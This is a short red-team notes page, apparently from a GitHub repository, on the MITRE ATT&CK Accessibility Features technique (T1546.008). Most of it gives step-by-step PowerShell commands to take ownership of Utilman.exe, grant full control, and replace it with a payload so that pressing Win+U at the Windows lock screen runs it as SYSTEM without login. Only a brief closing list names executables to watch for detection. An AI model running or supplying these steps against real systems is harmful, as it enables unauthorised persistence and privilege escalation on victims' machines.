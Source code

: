 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## Exploit syntax:

1. Get a beacon with administrative privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the \<payload path> to the payload location on the victim box
    ```powershell
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as` NoobNoob.ps1` to `/tmp` on parrot-vm
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```pwoershell
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges. 



---

## Detection Technique:

* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe

